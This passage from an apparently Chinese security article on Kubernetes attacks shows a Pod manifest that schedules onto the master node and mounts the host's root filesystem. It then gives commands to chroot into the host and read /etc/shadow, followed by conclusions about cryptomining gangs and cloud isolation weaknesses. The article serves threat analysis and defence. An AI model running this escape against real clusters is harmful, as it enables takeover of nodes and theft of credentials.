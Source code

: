 ```plain

#control-master.yaml 内容：
apiVersion: v1
kind: Pod
metadata:
  name: control-master-15
spec:
  tolerations:
    - key: node.kubernetes.io/unschedulable
      operator: Exists
      effect: NoSchedule
  containers:
    - name: control-master-15
      image: ubuntu:18.04
      command: ["/bin/sleep", "3650d"]
      volumeMounts:
      - name: master
        mountPath: /master
  volumes:
  - name: master
    hostPath:
      path: /
      type: Directory
![](https://xzfile.aliyuncs.com/media/upload/picture/20211230193004-d5616706-6963-1.png)
#获得 Master 控制端
kubectl exec control-master-15 -it bash
chroot /master bash
cat /etc/shadow
```

## 结论

-   目前黑产团伙通过批量扫描然后利用未授权进行挖矿。
-   当前攻防技术处于初级阶段，但随着云原生攻击武器的发展，攻击门槛也会相应降低。
-   虚拟机/容器逃逸攻击、供应链攻击等新型技术攻击方式，将会呈现出快速增长的趋势，此类攻击难度很高，带来的危害和影响也很大。
-   私有云部署在企业业务生产网，云的底座网络、物理设备与业务网络在同一安全域，大多时候缺乏有效隔离。
-   私有云产品属于定制开发，使用大量第三方组件，会随着时间和安全研究人员的研究而暴露。

- - -

参考链接：  
1.TeamTNT Targets Kubernetes, Nearly 50,000 IPs Compromised in Worm-like Attack  
[https://www.trendmicro.com/en\_us/research/21/e/teamtnt-targets-kubernetes--nearly-50-000-ips-compromised.html](https://www.trendmicro.com/en_us/research/21/e/teamtnt-targets-kubernetes--nearly-50-000-ips-compromised.html)

2.Threat matrix for Kubernetes  
[https://www.microsoft.com/security/blog/2020/04/02/attack-matrix-kubernetes/](https://www.microsoft.com/security/blog/2020/04/02/attack-matrix-kubernetes/)

3.Kubernetes Attack Surface  
[https://www.optiv.com/insights/source-zero/blog/kubernetes-attack-surface](https://www.optiv.com/insights/source-zero/blog/kubernetes-attack-surface)
